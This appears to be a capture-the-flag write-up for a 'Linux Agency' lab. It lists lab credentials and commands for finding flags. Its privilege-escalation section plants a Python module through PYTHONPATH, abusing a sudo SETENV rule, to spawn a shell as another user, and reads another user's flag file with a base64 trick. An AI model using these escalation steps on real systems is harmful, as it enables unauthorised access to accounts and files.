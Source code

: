 # Linux Agency

## Creds

```txt
agent47:640509040147
```

## Linux Fundamentals

### Misssion 11

```bash
cat $(find . -type f) | grep mission11*
```

### Misssion 18

```bash
javac flag.java
java flag
```

### Misssion 28

```ruby
exec '/bin/bash'
cat txt.galf | rev
```

## Privilege Escalation

### Jordan's flag

Doing `sudo -l` we can see that jordan can run a script

```bash
(jordan) SETENV: NOPASSWD: /opt/scripts/Gun-Shop.py
```

Trying to run the script gives us this error:

```bash
import shop
ModuleNotFoundError: No module named 'shop'
```

This means that the script needs a library called shop in order to run.

Let's create this `shop.py` script and add it to the python path.

```bash
touch /tmp/shop.py
echo "import os" > shop.py
echo "os.system('/bin/bash')" >> shop.py
#echo "import pty;pty.spawn('/bin/bash')" > shop.py
```

And run it with the specified python PATH.

```bash
sudo -u jordan PYTHONPATH=/tmp/ /opt/scripts/Gun-Shop.py
```

### Maya's flag

```bash
LFILE=/home/maya/flag.txt
./base64 "$LFILE" | base64 -d
```

```json
```
